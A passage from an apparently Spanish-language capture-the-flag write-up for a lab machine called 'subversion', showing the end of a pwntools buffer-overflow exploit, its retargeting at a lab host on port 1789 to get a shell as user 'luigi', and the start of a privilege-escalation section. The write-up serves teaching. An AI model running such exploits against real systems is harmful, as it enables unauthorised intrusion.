 ```python
    p.recvuntil("Introduce tu \"mágico\" texto para continuar:".encode('utf-8'))
    p.sendline(payload)


if __name__ == '__main__':
    responde()
    aleatorio()
    overflow()
    p.interactive()
```

Lo ejecutamos y obtenemos una shell en nuestro propio sistema, funcionando como esperábamos.

![alt text](../../../assets/images/subversion/exploit-1.png)

Ahora modificamos las primeras líneas del exploit para en vez de ejecutar el binario `subversion` descargado, hacerlo contra el puerto `1789`.

```python
binario = './subversion'
# p = process(binario)
p = remote('172.17.0.2', '1789')
```

Volvemos a ejecutar el exploit y obtenemos una shell con el usuario `luigi` en el servidor.

![alt text](../../../assets/images/subversion/exploit-2.png)

## Escalada de Privilegios

Para trabajar con más comodidad en el servidor nos creamos otra shell y hacemos el tratamiento de la tty.

![alt text](../../../assets/images/subversion/escalada.png)
